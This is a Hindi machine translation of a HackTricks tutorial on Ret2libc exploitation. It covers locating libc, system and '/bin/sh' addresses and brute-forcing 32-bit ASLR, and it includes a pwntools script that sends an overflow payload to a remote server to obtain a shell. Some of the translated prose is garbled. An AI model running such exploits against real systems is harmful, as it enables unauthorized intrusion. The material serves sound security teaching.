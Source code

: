 # Ret2lib

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह **The PEASS Family** की खोज करें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) और **हमें** **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें** द्वारा PRs सबमिट करके [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## **मूल जानकारी**

**Ret2Libc** का सार है किसी भी वंशावली प्रोग्राम के निष्क्रिय को किसी साझा पुस्तकालय के फ़ंक्शन (जैसे **system**, **execve**, **strcpy**) में पुनर्निर्देशित करना भंग करने के बजाय हमलावतारित शैलकोड को स्टैक पर निष्पादित करने की बजाय। हमलावता एक पेलोड बनाता है जो स्टैक पर वापसी पता सही पुस्तकालय कार्य करने के लिए संशोधित करता है, साथ ही कॉलिंग कन्वेंशन के अनुसार आवश्यक तरीके से किसी भी आवश्यक तर्कों को सही ढंग से सेट करने के लिए भी व्यवस्थित करता है।

### **उदाहरण कदम (सरलीकृत)**

* कॉल करने के लिए फ़ंक्शन (जैसे सिस्टम) और कॉल करने के लिए कमांड (जैसे /bin/sh) का पता लगाएं
* पहले तर्क को पास करने के लिए एक ROP श्रृंखला उत्पन्न करें जो कमांड स्ट्रिंग पर पहला तर्क दिखाने और कार्यनिर्वाही धारा को फ़ंक्शन के पास ले जाने के लिए हो।

## पतों का पता लगाना

* मान लेते हैं कि `libc` जो वर्तमान मशीन में उपयोग किया जाता है, वह यहाँ मेमोरी में कहाँ लोड होगा इसे आप निम्नलिखित के साथ खोज सकते हैं:
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
{% endcode %}

यदि आप जांचना चाहते हैं कि ASLR libc के पते को बदल रहा है तो आप यह कर सकते हैं:
```bash
for i in `seq 0 20`; do ldd ./<bin> | grep libc; done
```
* जानते हुए कि कौन सी libc का उपयोग किया गया है, `system` फ़ंक्शन के लिए ऑफसेट ढूंढना भी संभव है:
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
* जानते हुए जिस libc का उपयोग किया गया है, उससे `/bin/sh` स्ट्रिंग फ़ंक्शन के लिए ऑफसेट ढूंढना भी संभव है:
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
### जीडीबी-पीडा / जीईएफ का उपयोग

लिबसी का पता लगाने के बाद, **system** फ़ंक्शन, **exit** फ़ंक्शन और स्ट्रिंग **`/bin/sh`** का पता लगाने के लिए Peda या GEF का उपयोग भी संभव है:
```bash
p system
p exit
find "/bin/sh"
```
### /proc/\<PID>/maps का उपयोग

यदि प्रक्रिया हर बार जब आप इसके साथ बात करते हैं (नेटवर्क सर्वर) तो **बच्चे** बना रही है, तो उस फ़ाइल को **पढ़ने** का प्रयास करें (संभावित रूप से आपको रूट होने की आवश्यकता होगी)।

यहाँ आप **सटीक रूप से पा सकते हैं कि प्रक्रिया के अंदर libc कहाँ लोड हो रहा है** और **प्रत्येक प्रक्रिया के बच्चे के लिए कहाँ लोड होने जा रहा है**।

![](<../../../.gitbook/assets/image (850).png>)

इस मामले में यह **0xb75dc000** में लोड हो रहा है (यह libc का आधार पता होगा)

## अज्ञात libc

संभावना है कि आपको **पता नहीं हो कि बाइनरी कौन सा libc लोड कर रहा है** (क्योंकि यह एक सर्वर में स्थित हो सकता है जिसमें आपका कोई पहुंच नहीं है)। उस मामले में आप विकल्प का दुरुपयोग कर सकते हैं **कुछ पते चुराने और पता लगाने के लिए कि कौन सा libc** पुस्तकालय उपयोग किया जा रहा है:

{% content-ref url="rop-leaking-libc-address/" %}
[rop-leaking-libc-address](rop-leaking-libc-address/)
{% endcontent-ref %}

और आप इसके लिए एक pwntools टेम्पलेट पा सकते हैं:

{% content-ref url="rop-leaking-libc-address/rop-leaking-libc-template.md" %}
[rop-leaking-libc-template.md](rop-leaking-libc-address/rop-leaking-libc-template.md)
{% endcontent-ref %}

### 2 ऑफसेट्स के साथ libc को जानें

पृष्ठ [https://libc.blukat.me/](https://libc.blukat.me/) की जाँच करें और libc के अंदर कुछ फ़ंक्शनों के पतों का उपयोग करके **उपयोग किए जाने वाले संस्करण** का पता लगाने के लिए।

## 32 बिट में ASLR को दाखिल करना

ये ब्रूट-फोर्सिंग हमले **केवल 32 बिट सिस्टम के लिए उपयोगी** हैं।

* यदि एक्सप्लॉइट स्थानीय है, तो आप libc का आधार पता लगाने के लिए ब्रूट-फोर्स कर सकते हैं (32 बिट सिस्टम के लिए उपयोगी):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* अगर आप एक रिमोट सर्वर पर हमला कर रहे हैं, तो आप `libc` फ़ंक्शन `usleep` का पता लगाने के लिए **ब्रूट-फ़ोर्स कर सकते हैं**, 10 को एर्ग्यूमेंट के रूप में पास करते हुए। यदि किसी समय सर्वर **10 सेकंड अतिरिक्त समय लेता है** तो आपने इस फ़ंक्शन का पता लगा लिया है।

## वन गैजेट

एक शैल को निष्क्रिय करने के लिए केवल एक विशिष्ट पते पर जाकर शैल निष्क्रिय करें libc में:

{% content-ref url="one-gadget.md" %}
[one-gadget.md](one-gadget.md)
{% endcontent-ref %}

## x86 Ret2lib कोड उदाहरण

इस उदाहरण में ASLR ब्रूट-फ़ोर्स कोड में एकीकृत किया गया है और वंशावली बाइनरी एक रिमोट सर्वर में स्थित है:
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE, could be address of exit()
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive()
```
## x64 Ret2lib कोड उदाहरण

निम्नलिखित उदाहरण की जाँच करें:

{% content-ref url="../" %}
[..](../)
{% endcontent-ref %}

## Ret-into-printf (या puts)

इससे **प्रक्रिया से जानकारी लीक करने** की अनुमति होती है जिसे किसी विशेष डेटा को एक तरह के तर्क के रूप में रखकर `printf`/`puts` को कॉल करने से प्राप्त किया जा सकता है।

## Ret2printf

यह मुख्य रूप से एक **Ret2lib का दुरुपयोग करना है ताकि इसे `printf` फॉर्मेट स्ट्रिंग दुर्बलता में बदला जा सके** जिसे `ret2lib` का उपयोग करके इसे उसे उत्पन्न करने के लिए `printf` को कॉल करने के लिए उपयोग किया जाता है (यह बेकार लग सकता है लेकिन संभव है):

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

## अन्य उदाहरण और संदर्भ

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html)
* Ret2lib, एक फ़ंक्शन के पते का लीक देते हुए, एक गैजेट का उपयोग करते हुए
* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
* 64 बिट, ASLR सक्षम है लेकिन PIE नहीं, पहला कदम है कैनारी के 0x00 बाइट तक एक ओवरफ्लो भरना और फिर puts को कॉल करना और इसे लीक करना। कैनारी के साथ एक ROP गैजेट बनाया जाता है जो puts को कॉल करने के लिए GOT से puts का पता लीक करने के लिए और एक ROP गैजेट को कॉल करने के लिए `system('/bin/sh')`
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
* 64 बिट, ASLR सक्षम, कैनारी नहीं, मुख्य स्टैक ओवरफ्लो से एक बच्चे कार्य से। puts को कॉल करने के लिए ROP गैजेट और फिर एक वन गैजेट को कॉल करने के लिए puts का पता लीक करने के लिए ROP गैजेट।
* [https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html)
* 64 बिट, कोई pie नहीं, कोई कैनारी नहीं, कोई relro नहीं, nx। लीक (libc) के पते को लीक करने के लिए लेखन कार्य का उपयोग करता है और एक गैजेट को कॉल करता है।
* [https://guyinatuxedo.github.io/14-ret\_2\_system/asis17\_marymorton/index.html](https://guyinatuxedo.github.io/14-ret\_2\_system/asis17\_marymorton/index.html)
* स्टैक से कैनारी को लीक करने के लिए एक फॉर्मेट स्ट्रिंग का उपयोग करता है और सिस्टम में कॉल करने के लिए एक बफर ओवरफ्लो करने के लिए (यह GOT में है) का पता `/bin/sh` के पते के साथ।
* [https://guyinatuxedo.github.io/14-ret\_2\_system/tu\_guestbook/index.html](https://guyinatuxedo.github.io/14-ret\_2\_system/tu\_guestbook/index.html)
* 32 बिट, कोई relro नहीं, कोई कैनारी नहीं, nx, pie। स्टैक से libc और हीप के पतों को लीक करने के लिए एक बुरा इंडेक्सिंग का दुरुपयोग करता है। `system('/bin/sh')` को कॉल करने के लिए ret2lib को कॉल करने के लिए बफर ओवरफ्लो का दुरुपयोग करता है (हीप पता की आवश्यकता है एक जाँच को उमकरने के लिए)।
